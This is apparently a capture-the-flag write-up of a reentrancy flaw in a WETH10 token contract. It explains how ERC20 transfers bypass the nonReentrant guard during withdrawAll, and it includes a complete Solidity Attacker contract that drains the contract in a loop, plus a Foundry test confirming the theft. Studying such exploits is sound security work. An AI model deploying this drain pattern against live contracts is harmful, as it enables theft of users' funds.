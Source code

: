 ## The vulnerability

Reentrancy in WETH10.withdrawAll() (src/weth10.sol#26-29):

This function is vulnerable to reentrancy. In fact while the function is protected by a reenentrancy guard, it does not guarantee that the contract is protected against reentrnacies.

The nonReentrant modifier checks if other functions with the same modifier are called in the same call, and it reverts if that is the case. 
The problem is that the standard ERC20 function ERC20._transfer(), and it's external counterparts ERC20.transfer() and ERC20.transferFrom() are not supplied with the nonReentrant modifier, so they can be used if a function is vulnerable to reentrancy.

Here it is the vulnerable function:

 `function withdrawAll() external nonReentrant {
        Address.sendValue(payable(msg.sender), balanceOf(msg.sender)); // vulnerable external call
        _burnAll();
    }`

This function perform an external call, that can be leveraged by an attacker contract to transfer his token out of his wallet before the _burnAll() burns all the tokens that are in his wallet.

## Attacker steps

The attacker deploys an Attacker, that contains an exploit() function which:

1) calls the WETH10.deposit() function depositing 1 ether
2) calls the WETH10.withdrawAll() function to withdraw 1 ether
3) by sending ethers to the Attacker contract it triggers the Attacker.fallback() function, the function sends all the WETH10 tokens inside the Attacker contract to an external address owned by the Attacker.
4) after the fallback returns, the WETH10._burnAll() function is called, and it burns the whole WETH10 token balance inside the attacker contract, but since all the tokens have been taken out, it burns none of them.
5) after the WETH10._burnAll() execution is over, the next step is to pull back the token from the Attacker EOA (it requires approving Attacker contract with the WETH10 tokens owner by the Attacker EOA previously).
6) now that the attacker contract owns all the unburned tokens, it can iterate steps 2 to 5 until it has complitely drained the WETH10 contract

## POC

Attacker.sol:



    pragma solidity ^0.8.0;

    import "./weth10.sol";

    contract Attacker {
        WETH10 public target;
        address public bob;

        constructor(address payable _target, address payable _bob) {
            target = WETH10(_target);
            bob = _bob;
        }

        fallback() external payable {
            target.transfer(bob, 1 ether);
        }

        function deposit(uint256 amount) public payable {
            target.deposit{value: (amount)}();
        }

        function withdrawAll() public {
            payable(msg.sender).transfer(address(this).balance);
        }

        function attack(uint256 amount) public {
            uint256 prevBalance = address(target).balance;
            target.withdrawAll();
            prevBalance = address(target).balance;
            target.transferFrom(bob, address(this), amount);
        }

        function exploit() external payable {
            deposit(1 ether);
            while ((address(target).balance) > 1 wei) {
                attack(1 ether);
            }
            withdrawAll();
        }
    }



weth10.t.sol:

    
    pragma solidity ^0.8.0;

    import "forge-std/Test.sol";
    import "../src/Counter.sol";
    import "../src/weth10.sol";
    import "../src/Attacker.sol";

    contract Weth10Test is Test {
        WETH10 public weth;
        Attacker public attacker;
        address owner;
        address bob;

        function setUp() public {
            weth = new WETH10();
            bob = makeAddr("bob");
            attacker = new Attacker(payable(address(weth)), payable(bob));

            vm.deal(address(weth), 10 ether);
            vm.deal(address(bob), 1 ether);
        }

        function testHack() public {
            assertEq(
                address(weth).balance,
                10 ether,
                "weth contract should have 10 ether"
            );

            vm.startPrank(bob);

            // hack time!
            weth.approve(address(attacker), 11 ether);
            attacker.exploit{value:1 ether}();


            vm.stopPrank();
            console.logUint(address(weth).balance);
            assertEq(address(weth).balance, 0, "empty weth contract");
            assertEq(bob.balance, 11 ether, "player should end with 11 ether");
        }
    }
